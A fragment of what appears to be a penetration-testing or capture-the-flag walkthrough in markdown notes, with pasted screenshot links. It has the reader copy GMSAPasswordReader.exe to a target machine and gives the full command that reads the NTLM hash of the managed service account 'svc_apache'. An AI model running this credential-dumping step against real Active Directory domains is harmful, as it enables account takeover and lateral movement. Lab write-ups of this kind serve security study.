 ![](Images/Pasted%20image%2020221012215446.png)

![](Images/Pasted%20image%2020221012215548.png)

- We download the precompiled binary GMSAPasswordReader.exe to the target machine.
  
- We type the following command and receive the NTLM hash (the rc4_hmac is the same as the NTLM hash).

.\GMSAPasswordReader.exe -- AccountName 'svc_apache'
